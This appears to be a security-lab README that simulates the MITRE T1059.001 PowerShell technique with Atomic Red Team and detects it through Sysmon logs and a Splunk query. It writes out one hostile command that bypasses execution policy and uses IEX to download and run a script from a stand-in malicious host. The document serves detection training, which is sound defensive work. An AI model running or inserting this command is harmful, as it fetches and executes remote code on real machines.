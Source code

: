 # T1059.001 – PowerShell Execution (Atomic Red Team)

**MITRE Technique**: [T1059.001 – Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)

This attack simulates malicious PowerShell execution using Atomic Red Team on a domain-joined Windows 10 machine. The purpose is to test endpoint visibility using Sysmon and log detection with Splunk.

---

## 🎯 Description

We use an Atomic Red Team payload to simulate a fileless PowerShell attack that downloads and runs a script remotely. This simulates common adversary behavior seen in malware, ransomware loaders, and APTs.

### Atomic Command Used:

```powershell
powershell.exe -nop -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://malicious[.]domain/script.ps1')"
```

This payload:

* Bypasses PowerShell execution policies
* Uses `IEX` (Invoke-Expression) to run code from memory
* Pulls down remote scripts using `Net.WebClient`

---

## 🔍 Detection in Splunk

### Tools Involved:

* Sysmon installed on Windows 10
* Splunk Universal Forwarder running on the same host
* Splunk Enterprise server receiving and indexing logs
* Atomic Red Team running directly on the Windows target

### Detection Method:

* **Sysmon Event ID 1** logs all process creations, including full PowerShell command lines
* Splunk ingests these logs under sourcetype `WinEventLog:Microsoft-Windows-Sysmon/Operational`

### Splunk Detection Query:

```splunk
index=endpoint sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational"
| search CommandLine="*powershell*"
| table _time, Computer, User, CommandLine
```

### What to Look For:

* Use of `-nop`, `-exec bypass`
* `IEX`, `Net.WebClient`, or `DownloadString`
* Long base64 or obfuscated strings

---

## ✅ Result

* The attack was logged by Sysmon and successfully forwarded to Splunk.
* Analysts can see full command line arguments in Splunk's search.
* The query clearly shows the suspicious PowerShell activity.

---

## 📸 Screenshots

### 1. PowerShell attack launched from ART:

**File:** `T1059.001 attack.PNG`
![PowerShell Attack](../../attacks/T1059.001-powershell/screenshots/T1059.001%20attack.PNG)

### 2. Splunk confirms detection:

**File:** `shows that T1059.001 can spot this kind of attack.PNG`
![Detection Confirmed](../../attacks/T1059.001-powershell/screenshots/shows%20that%20T1059.001%20can%20spot%20this%20kind%20of%20attack.PNG)

### 3. Manual search for PowerShell:

**File:** `we can search powershell as well to see.PNG`
![Search PowerShell](../../attacks/T1059.001-powershell/screenshots/we%20can%20search%20powershell%20as%20well%20to%20see.PNG)

### 4. Explanation of what the command does:

**File:** `what the command does.PNG`
![Command Explained](../../attacks/T1059.001-powershell/screenshots/what%20the%20command%20does.PNG)

### 5. What to look for in command line activity:

**File:** `what to look for in powershell.PNG`
![Indicators](../../attacks/T1059.001-powershell/screenshots/what%20to%20look%20for%20in%20powershell.PNG)

